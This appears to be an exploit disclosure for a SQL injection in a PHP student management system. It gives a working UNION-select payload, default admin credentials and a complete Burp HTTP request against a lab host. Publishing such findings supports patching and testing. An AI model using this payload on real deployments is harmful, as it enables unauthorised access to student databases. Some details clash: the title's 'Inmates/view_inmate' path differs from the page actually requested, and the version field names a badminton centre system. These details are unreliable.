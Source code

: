# Online student management system  - Inmates/view_inmate 'todate' SQL inject(SQLI)


#### Exploit Title: Online student management system  - Inmates/view_inmate 'todate' SQL inject(SQLI)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/16137/online-student-management-system-php-free-download.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=16137&title=Online+student+management+system+in+php+free+download
#### Version: Badminton Center Management System
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Online student management system does not filter the content correctly at the "Inmates/view_inmate" todate parameter, resulting in the generation of SQL injection.

#### Payload used:

`fromdate=2023-01-01&todate=1'and 1=2 union select '1','2',database(),version(),'5','6','7'-- &submit=`

#### Proof of Concept

1. Login the CMS. 
   Admin Default Access:

   Username : mayurik
   Password : rootadmin

2. Open Page http://192.168.67.10/between-dates-reports.php

   ![image-20231218162942733](img/Onlinestudentmanagementsystem(SQLI)/image-20231218162942733.png)

   

3. Put SQL payload   in the BURP;

   ![image-20231218163013713](img/Onlinestudentmanagementsystem(SQLI)/image-20231218163013713.png)

   ```
   POST /between-date-reprtsdetails.php HTTP/1.1
   Host: 192.168.67.10
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 101
   Origin: http://192.168.67.10
   Connection: close
   Referer: http://192.168.67.10/between-dates-reports.php
   Cookie: PHPSESSID=41k6lb8lgvu5aiq908id5u1qgh
   Upgrade-Insecure-Requests: 1
   
   fromdate=2023-01-01&todate=1'and 1=2 union select '1','2',database(),version(),'5','6','7'-- &submit=
   ```

   


4. Viewing the Response;

   

![image-20231218163108092](img/Onlinestudentmanagementsystem(SQLI)/image-20231218163108092.png)

![image-20231218163057715](img/Onlinestudentmanagementsystem(SQLI)/image-20231218163057715.png)



